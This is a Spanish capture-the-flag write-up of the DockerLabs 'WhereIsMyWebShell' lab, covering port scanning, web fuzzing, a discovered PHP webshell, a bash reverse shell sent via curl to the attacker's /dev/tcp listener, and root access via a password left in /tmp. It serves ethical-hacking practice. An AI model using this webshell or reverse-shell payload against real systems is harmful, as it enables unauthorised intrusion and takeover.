 ```yaml
---
title: WhereIsMyWebShell
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-04-30
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-whereismywebshell/whereismywebshell_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - http
  - data_leaks
  - fuzzing_web
  - interactive_tty
  - php
  - rce
  - information_gathering
  - web_analysis
  - foothold
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.092 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.092/0.092/0.092/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.2 -n -Pn -oG nmap1
Host: 172.17.0.2 ()     Status: Up
Host: 172.17.0.2 ()     Ports: 80/open/tcp//http///     Ignored State: closed (65534)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ sudo nmap -sCV -p80 -vvv 172.17.0.2 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
```terminal
http://172.17.0.2 [200 OK] Apache[2.4.57], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[172.17.0.2], Title[Academia de Inglés (Inglis Academi)]
```

---
## Web Analysis

El servicio web se presenta con una interfaz sencilla y sin funcionalidades visibles.

![](assets/img/dockerlabs-writeup-whereismywebshell/whereismywebshell1_1.png)

Al final del sitio se encuentra una posible pista.

![](assets/img/dockerlabs-writeup-whereismywebshell/whereismywebshell1_2.png)

Utilizo dirb para realizar un escaneo de extensiones comunes de configuración y scripts.

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ dirb http://172.17.0.2/ -X .md,.txt,.php,.conf,.html
---- Scanning URL: http://172.17.0.2/ ----
+ http://172.17.0.2/index.html (CODE:200|SIZE:2510)
+ http://172.17.0.2/shell.php (CODE:500|SIZE:0)
```

El escaneo revela un archivo potencialmente vulnerable `shell.php`. Este script podría permitir la ejecución de comandos arbitrarios.

Utilizo wfuzz para identificar parámetros válidos que puedan ser explotados dentro del archivo `shell.php`.

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ wfuzz -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/shell.php?FUZZ=id -t 200 --hc 404 --hw 227,0
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000115401:   200        2 L      4 W        66 Ch       "parameter"
```

El parámetro `parameter` responde con código 200 y diferencias en el contenido, lo que indica su procesamiento por parte del script. Y por web, confirmo la presencia de ejecución remota de comandos.

![](assets/img/dockerlabs-writeup-whereismywebshell/whereismywebshell1_3.png)

---
## Foothold

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ curl http://172.17.0.2/shell.php?parameter=id
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ curl http://172.17.0.2/shell.php?parameter=cat%20shell.php
<pre><?php
    echo "<pre>" . shell_exec($_REQUEST['parameter']) . "</pre>";
?>

</pre>
```

Esta vulnerabilidad me permite establecer una reverse shell utilizando bash.

* Se inicia una escucha con netcat en la máquina atacante.
* Luego se invoca el payload para obtener acceso interactivo al servidor.

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ sudo nc -nvlp 4321
	listening on [any] 4321 ...

/home/kali/Documents/dockerlabs/whereismywebshell:-$ curl http://172.17.0.2/shell.php?parameter=%2Fbin%2Fbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F4321%200%3E%261%22

	... connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 36708
www-data@83d254f24abc:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
## Privilege Escalation

Se configura una pseudo-terminal interactiva para mejorar la estabilidad de la sesión.

```terminal
www-data@83d254f24abc:/var/www/html$ script /dev/null -c bash
www-data@83d254f24abc:/var/www/html$ ^Z

/home/kali/Documents/dockerlabs/whereismywebshell:-$ stty raw -echo;fg
[1]  + continued  nc -nvlp 4321
				reset xterm

www-data@83d254f24abc:/var/www/html$ export TERM=xterm
www-data@83d254f24abc:/var/www/html$ export SHELL=bash
```

Enumero usuarios válidos del sistema mediante el archivo `/etc/passwd`, buscando aquellos con acceso a shells interactivos.

```terminal
www-data@83d254f24abc:/$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
```

Teniendo en cuenta ls pista anterior, se inspecciona el directorio `/tmp` y se localiza un archivo oculto que contiene una contraseña.

```terminal
www-data@83d254f24abc:/$ cat /tmp/.secret.txt 
contraseñaderoot123
```

Finalmente, esta contraseña me proporciona acceso al usuario `root`.

```terminal
www-data@83d254f24abc:/$ su root 
Password: contraseñaderoot123

root@83d254f24abc:/# id
uid=0(root) gid=0(root) groups=0(root)
```
